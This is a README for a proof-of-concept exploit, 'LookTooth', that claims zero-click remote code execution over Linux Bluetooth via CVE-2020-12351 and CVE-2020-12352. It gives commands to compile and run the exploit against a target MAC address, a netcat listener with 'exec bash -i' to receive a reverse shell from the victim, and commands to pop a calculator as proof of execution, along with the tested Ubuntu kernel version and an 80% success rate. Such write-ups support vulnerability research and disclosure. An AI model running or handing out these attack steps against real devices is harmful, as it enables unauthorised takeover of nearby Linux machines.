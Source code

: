 # LookTooth: Linux Bluetooth Zero-Click Remote Code Execution

This Proof-Of-Concept demonstrates the exploitation of [CVE-2020-12351] and [CVE-2020-12352]

## Technical info

Technical info about the exploit is available at [writeup.md](writeup.md).

## Usage

Compile it using:

```sh
$ gcc -o exploit exploit.c -lbluetooth
```

and execute it as:

```sh
$ sudo ./exploit target_mac source_ip source_port
```

In another terminal, run:

```sh
$ nc -lvp 1337
exec bash -i 2>&0 1>&0
```

If successful, a calc can be spawned with:

```sh
export XAUTHORITY=/run/user/1000/gdm/Xauthority
export DISPLAY=:0
gnome-calculator
```

This Proof-Of-Concept has been tested against a Asus Tuf FX505DT running Ubuntu 20.04.1 LTS with:

- `5.4.0-48-generic #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux`

The success rate of the exploit is estimated at 80%.

